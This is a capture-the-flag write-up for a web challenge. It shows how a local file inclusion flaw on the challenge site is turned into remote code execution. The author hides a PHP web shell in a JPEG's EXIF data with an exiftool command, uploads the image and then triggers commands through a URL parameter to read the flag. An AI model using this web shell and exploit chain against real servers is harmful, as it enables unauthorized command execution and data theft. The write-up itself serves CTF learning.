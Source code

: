 # Write Up

Website = http://lfi.hax1.allesctf.net:8081/

When playing with the website, one notices that the website suffers a LFI as the title suggests. On top of that you are able to upload images and know where these are saved on the server.

To exploit this, you can escalate the LFI into a remote code execution vuln.
To do this you can hide PHP code in the exif section of a JPEG image.
Hiding php code in JPEG:
```
exiftool -DocumentName="<h1>FC3<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" im.jpg
```
Renaming the image:
```
mv im.jpg im.php.jpg
```
Now this image can simply be uploaded and used to execute commands on the server by accessing the following link:
```
http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/<imagename>&cmd=<command>
```
After executing the ***ls*** command, you find out that a flag.php file exists, which can be looked at by executing ***cat flag.php***. The flag can then be seen in burp.
